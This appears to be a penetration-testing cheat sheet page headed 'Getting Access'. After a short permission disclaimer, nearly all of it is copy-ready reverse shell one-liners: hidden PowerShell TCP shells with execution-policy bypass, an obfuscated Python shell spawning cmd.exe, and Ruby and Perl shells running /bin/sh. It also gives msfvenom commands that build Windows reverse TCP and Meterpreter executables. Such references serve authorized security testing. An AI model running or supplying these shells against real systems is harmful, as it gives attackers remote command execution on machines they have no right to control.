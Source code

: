# Getting Access

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

Not much here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)

## **Reverse Shells**

TODO: description and methodology for each section \(as needed\); Fix code examples so they can be used for scripting

### **PowerShell Reverse Shells**

```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("$ip",$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('$ip',$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

* Need to customize the variables `$ip` and `$port` 

### **Python Reverse Shells**

```python
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect((ipAddress, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

* The variables `ipAddress` and `port` need to be customized.  `ipAddress` must be a string, `port` must be an integer.

### Ruby Reverse Shells

```ruby
ruby -rsocket -e 'c=TCPSocket.new("$ip","$port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

ruby -rsocket -e 'f=TCPSocket.open("$ip","$port").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Perl Reverse Shells

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$ip:$port");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl -e 'use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($port,inet_aton($ip)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
```

* The variables `$ip` and `$port` need to be customized.  `$ip` must be a string, `$port` must be an integer.

### Meterpreter Reverse Shells

* **Windows Non-Staged reverse TCP**

```text
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > reversetcp.exe
```

* **Windows Staged reverse TCP**

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > reversetcp.exe
```



If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

